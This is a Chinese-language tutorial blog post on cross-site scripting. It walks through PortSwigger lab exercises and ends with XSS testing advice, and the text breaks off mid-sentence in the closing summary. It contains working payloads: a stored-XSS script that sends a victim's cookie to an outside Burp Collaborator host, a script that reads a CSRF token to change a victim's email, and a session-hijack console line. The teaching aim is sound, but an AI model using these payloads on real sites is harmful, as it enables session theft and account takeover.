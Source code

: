 ```yaml
---
title: "XSS 漏洞知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试,反射型XSS,存储型XSS]
categories: [web安全]
date: "2020-01-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 通过 XSS 来实现 CSRF

上述的攻击手法有一定的限制之处，而且容易被受害者发现。而配合 CSRF 漏洞，攻击者可以实现执行受害者可以执行的任何操作，并且隐秘性更强。比如我们可以修改用户的邮箱，从而可以充值用户密码。如果受害者是管理员的话，甚至往往可以实现添加用户，删除用户。CSRF 漏洞的防御机制一般是通过 token 来进行防御，但是如果你的应用有 XSS 漏洞，那么这种防御机制就会失效，因为通过 JS 我们就可以获取 token。下面继续通过一个 lab 来演示这种类型的攻击方式：

这个 lab 和之前的一样，这一次我们需要通过 XSS 漏洞来配合 CSRF 漏洞来实现修改受害者的邮箱。首先我们可以通过一个普通用户登录应用，然后发现有一个可以修改邮箱的功能。

![3cJFkq.png](https://s2.ax1x.com/2020/03/01/3cJFkq.png)

通过 Burp 可以捕获修改邮箱的请求：

```
POST /email/change-email HTTP/1.1
Host: acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Connection: close
Content-Length: 57
Cache-Control: max-age=0
Origin: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net/email
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7,zh-TW;q=0.6
Cookie: session=J7wtDYrnotYBeGxHRbxRQAjwWoER6iPb

email=bbb%40bbb.com&csrf=xmLrs2P4dtFVurZlCUVpJsBnvaGlL4T1
```

可以看到这个修改邮箱的请求包含两个参数，即 `email` 以及 `csrf`，很明显，这个请求是使用了 CSRF 防御的。那么现在可以思考一下如何来执行 CSRF。

1. 首先请求修改邮箱功能的页面，获取页面响应。
2. 在页面响应中匹配 csrf，然后提交修改邮箱的 POST 请求。

![3ctH0J.png](https://s2.ax1x.com/2020/03/01/3ctH0J.png)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("POST", "/email/change-email", true);
    changeReq.send("csrf=" + csrf + "&email=hack@hack.com");
}
req.open("GET", "/email", true)
req.send()
</script>
```

只要把上述的 payload 提交到 comment 中，然后提交，就可以实现任何访问这个博客评论的用户都会成为受害者，将其邮箱修改为 `hack@hack.com`。

## XSS 漏洞的测试

接下来可以聊一聊如何测试 XSS 漏洞。不管是手工测试亦或是现在比较流行的被动扫描器的自动化类型的测试，其测试方式基本也是差不多的。

* 测试每一个输入点，每一个 HTTP 请求的输入点都是可以进行测试的，包括 URL 中的参数，以及 BODY，其实 HTTP 头也可以进行测试，不过在实际中，通过请求头的参数来触发 XSS 漏洞的不是太常见。
* 通过输入点提交随机字符串，这么多的目的主要是为了验证通过输入点的 payload 是否影响最终的响应。这里，其实对于自动化类型的测试还有一个小技巧，就是可以在随机字符串中可以去包含一些特殊符号，从而判断应用有没有对相应的符号进行转义，比如单引号、尖括号之类的。
* 找到 payload 在响应中的上下文。这一点其实比较重要的，这关系到你该如何去利用 XSS 漏洞。因为输入点映射在不同的位置，会影响到漏洞的利用方式。比如你的输入点的 payload 可以对应于 HTML 标签中、HTML 标签中的属性，或者是映射到 JS 文件中，通过这些，你可以更好地知道如何去利用 XSS 漏洞。
* 下面就是利用一些常见的 XSS payload 来进行测试，这里可以推荐 Burp 提供的 [XSS payload](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。里面对于不同的浏览器，不同的标签，甚至不同的属性，都有对应的 payload。当然，很有可能这些 payload 并不能直接成功，这个时候可能还需要结合上一点一起看一看来做相应的调整。不过这个 cheetsheet 里面可能已经足够了，可能还是最终没有找到合适的 payload。

对于漏洞的验证，人工测试往往比较直观，大多数都是通过 `alert` 弹窗的形式来验证漏洞是否存在。而对于自动化的漏洞测试工具而言，对于 XSS 漏洞的验证方式可能就会稍微复杂一点，包括验证响应的 `Content-Type`，然后接着验证输入点的输入是如何作用于响应中，通过对响应的解析从而验证漏洞是否利用成功。另外还有一种方式是通过 headless 浏览器去实现，让后来监听弹窗事件，这种测试方式接近于人工测试，但也更加消耗时间和性能。

## 总结

XSS 漏洞作为 

